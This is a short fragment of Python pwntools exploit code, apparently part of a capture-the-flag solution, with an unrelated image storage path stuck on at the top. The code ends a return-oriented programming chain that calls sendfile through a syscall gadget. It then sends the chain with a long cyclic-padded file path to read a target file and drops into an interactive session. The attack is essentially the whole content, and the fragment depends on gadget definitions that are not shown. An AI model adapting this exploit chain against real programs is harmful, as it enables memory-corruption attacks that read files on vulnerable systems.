 ```python
	p64(pop_r10)+p64(0xffff)+p64(pop_rsi)+p64(0x3)+\
	p64(pop_rax)+p64(0x28)+p64(syscall)
io.sendline(ROP2+b"/home/fbi/aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma.txt\x00")
io.interactive()
```


